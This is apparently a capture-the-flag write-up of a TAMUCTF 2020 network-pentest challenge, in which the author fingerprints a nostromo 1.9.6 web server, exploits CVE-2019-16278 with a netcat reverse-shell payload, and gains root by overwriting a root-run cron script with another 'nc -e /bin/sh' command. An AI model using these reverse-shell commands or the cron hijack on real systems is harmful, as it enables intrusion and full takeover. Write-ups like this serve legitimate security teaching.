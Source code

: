 ```yaml
---
layout: post
published: false
title: TAMUCTF-2020
date: '2020-03-30'
image: /img/tamuctf2020/1.png
---
```

Hey Guys , Back again with an interesting writeup.

<img src="/img/tamuctf2020/2.png" alt="2" style="zoom:%;" />

## MY_FIRST_BLOG

![3](/img/tamuctf2020/3.png)

A pentesting style chall from NETWORK_PENTEST category.

Given an ovpn config to connect to their internal network and a URL to start with.

http://172.30.0.2/



## Initial Foothold

![4](/img/tamuctf2020/4.png)

No juicy directories. Just a static page. So used `nikto` to get additional information about the webserver.

```console
╭─badboy17@badboy17-pc ~
╰─$ nikto -h http://172.30.0.2/        


- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.30.0.2
+ Target Hostname:    172.30.0.2
+ Target Port:        80
+ Start Time:         2020-03-29 12:07:58 (GMT5.5)
---------------------------------------------------------------------------
+ Server: nostromo 1.9.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
```

## Exploitation

`Server: nostromo 1.9.6` This banner is interesting. 

Searching for exploits we found one: 

#### CVE:

#### [2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)

Now there are two ways to get a shell. One through the Exploit and other through Metasploit.

I did it with the exploit.

```console
╭─badboy17@badboy17-pc ~
╰─$ python2 47837.py 172.30.0.2 80 'nc -e /bin/sh IP PORT'           




                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    



```

```console
╭─badboy17@badboy17-pc ~
╰─$ nc -lvnp PORT                                                                                                                   
Connection from 172.30.0.2:45084
whoami
webserver

```

and we get in as `webserver`.

And as the `root` owns flag. Privilege escalation was needed.

## Privilege Escalation

No juicy files were in directories. So moving on to checking the system-wide `crontab`.

```console
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

Now here a `root` privileged script was cron'ed to run after every small interval.

`/usr/bin/healthcheck` .Checking the script

```bash
nc -z localhost 80
if [ $? == 1 ]; then
	echo "nhttpd is dead, restarting."
	nhttpd
fi
```

So the script was modified to get a `root` reverse shell.

```bash
echo "nc -e /bin/sh IP PORT" > /usr/bin/healthcheck
```

And we get a reverse shell. Wooohooooooooooooo.

```console
╭─badboy17@badboy17-pc ~ 
╰─$ nc -lvnp 12345
Connection from 172.30.0.2:48432
whoami
root
cat flag.txt
gigem{l1m17_y0ur_p3rm15510n5}
```

`gigem{l1m17_y0ur_p3rm15510n5}`

That's our pretty flag. 

Till next time xD.
